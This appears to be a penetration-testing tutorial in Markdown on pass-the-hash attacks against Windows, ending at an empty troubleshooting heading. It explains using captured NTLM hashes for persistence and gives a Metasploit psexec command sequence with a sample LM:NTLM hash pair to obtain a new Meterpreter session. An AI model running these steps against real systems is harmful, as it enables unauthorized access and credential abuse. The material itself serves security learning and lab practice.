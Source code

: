 ## Pass the Hash

Pass-the-hash is an exploitation technique to capture NTLM hashes or clear-text passwords and utilizing them to authenticate against a target system legitimately.  Rather than exploiting services directly, this method leverages legitimate credentials to gain access to the system.

If you successfully obtain administrative access on a Windows target system, there's no need to re-authenticate to access the same Meterpreter session or reverse shell with administrative privileges. Even if the vulnerable service is patched, disabled, or blocked by a firewall rule, you can still regain access using the captured administrative hash. The hash allows you to access the system whenever you want, making this a form of persistence. Essentially, with the hash, you bypass the need to rely on the previously exploited service for continued access.

##### Performing the Pass-the-Hash Attack

Now we can used the captured NTLM hashes to authenticate with the target legitimately to the service/system.  Tools like the Metasploit PsExec module and CrackMapExec can be used to carry out this type of attack:

##### Metasploit PxExec
The `exploit/windows/smb/psexec` module in Metasploit is commonly used for pass-the-hash attacks because it interacts with the SMB protocol in Windows networks, allowing for remote execution. The module mimics the legitimate psexec tool to authenticate with the SMB service on a target machine using captured NTLM or LM hashes, bypassing the need for a plain-text password. Once authenticated, the module remotely executes commands or delivers a payload, such as a reverse shell, to gain control of the system. 

1. **Background the existing meterpreter session/Search for the PsExec Module**: Background the existing meterpreter session using `Ctrl+Z`.  You can search for the module with `psexec`. Configure the exploit module and payload options. Also, just for this module we need to provide both the lm_hash and ntlm_hash since you might get error only posting the ntlm hash alone.
	- `RHOST` = Target IP
	- `LPORT`= Your listening port, make sure this doesn't overlap with the local port used for the previous meterpreter session since we're going to be setting up another metrepreter session. (Can check by running `sessions` to see the port used for the session)
	- `SMBDomain` = If connected to a domain
	- `SMBUser` / `SMBPass` = The `SMBPass` can accept either the clear-text password or the NTLM hash which is what we'll provide.  Just for this module we need to provide both the lm_hash and ntlm_hash since you might get error only posting the ntlm hash alone. it would be set as `set SMBPass lm_hash:ntlm_hash`. The LM hash `aad3b435b51404eeaad3b435b51404ee`  is a default "empty" LM hash value, often used when the system doesn't actually use LM hashes which is common with modern system. 
```
(OPTIONAL) search psexec

use exploit/windows/smb/psexec
set SMBUser <user>
set SMBPass aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99
set LPORT 4312
exploit
```

**Psexec Exploit Module Troubleshooting:** 
